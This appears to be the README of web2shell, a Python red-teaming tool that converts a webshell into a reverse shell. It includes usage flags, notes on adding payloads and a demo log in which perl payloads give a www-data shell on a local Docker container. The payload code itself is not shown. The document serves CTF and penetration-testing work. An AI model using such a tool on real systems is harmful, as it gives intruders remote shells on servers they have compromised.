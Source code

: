 # web2shell

A Python program used to automate converting webshells into reverse shells. If you regularly do CTF, HTB, or red teaming you've probably spent a good chunk of time testing payloads to convert a webshell into a reverse shell. This tool aims to simplify this process.

Credit for the reverse shells goes to [PayloadAllTheThings.](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Usage

```
usage: web2shell [-h] [-i INTERFACE] [--force] [--ip IP] [--port PORT] [--nc NC] [--verbose] url

Automate converting webshells into reverse shells.

positional arguments:
  url                   webshell URL, replace the provided command with "SHELL". ex: https://example.com/shell.php?cmd=SHELL

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        the interface to use when listening for a remote shell. If none is provided you will be prompted to select one.
  --force               force command execution even if initial check is invalid
  --ip IP               IP address of your own listener (skips listener setup if both IP and port are set)
  --port PORT           port of your own listener
  --nc NC               path to local nc binary
  --verbose             verbose command output
```

Providing an IP and port will cause the program to skip the listener setup and assume you already have netcat/a comparable listener running at that address.

Please note: this program currently is only intended to be used on and against Linux machines.

## Requirements

Install the required python modules with pip (`pip3 install -r requirements.txt`.) You will need a local copy of `nc`. The program will attempt to find it automatically. If it can't (it might not be in your `$PATH`), please specify the path to the binary with the `--nc` flag.

## Adding New Payloads

The included payloads have all been tested on a simple webshell and work. If you'd like to add more, please feel free.

- Edit the `data/payloads.py` file.
- Add a new object to the `payloads` dict. The `key` should be the name of the bin, and the value should be a `list` object of payloads.
- Replace all instances of the reverse `IP` with `IPHERE`, the port with `PORTHERE`, and the binary name with `PATHHERE`. If the payload specifies the shell replace it with `SHELLHERE`.

## Example

Example execution on local Docker image (see `demo/README.md`)

```
[evan@ejedev web2shell]$ python3 web2shell.py http://127.0.0.1:8080/cmd.php?cmd=SHELL

               o                  o           o  o
               O     .oOOo.       O           O  O
               O          O       o           o  o
               o          o       O           O  O
'o     O .oOo. OoOo.     O' .oOo  OoOo. .oOo. o  o
 O  o  o OooO' O   o    O   `Ooo. o   o OooO' O  O
 o  O  O O     o   O  .O        O o   O O     o  o
 `Oo'oO' `OoO' `OoO' oOoOoO `OoO' O   o `OoO' Oo Oo
---------------------------------------------------
                v0.1.2   @ejedev

Verifying commands can be executed...
Available interfaces...
[-] lo
[-] enp4s0
[-] br-3bd00064871f
[-] docker0
[-] br-a01c69609a5e
[-] br-a193929c6ae4
[-] br-aa3534e13396
[-] br-c7551daa06d2
[-] br-2369a8165a53
[-] veth7b49643
No interface provided. Please enter the name of an available interface or 'exit' to quit:
> docker0
docker0 selected. Address to use is 172.17.0.1
Testing ports...
[x] 1025 already in use or unavailable.
[-] 1026 available!
Finding local nc binary...
nc target at /usr/bin/nc
Final connection string will be 172.17.0.1:1026...
Finding bins...
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1026
Ncat: Listening on 0.0.0.0:1026
[-] perl found at /usr/bin/perl
[-] php found at /usr/local/bin/php
[-] python3 found at /usr/bin/python3
[-] ruby found at /usr/bin/ruby
[-] go found at /usr/bin/go
[-] node found at /usr/bin/node
Finding shells...
[-] bash found at /usr/bin/bash
[-] sh found at /usr/bin/sh
Executing reverse shell...
Bins to test: 6
Shells to test: 2
[!] Attempting perl payloads for path /usr/bin/perl
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:40170.
www-data@849d7a9007c8:/var/www/html$
```
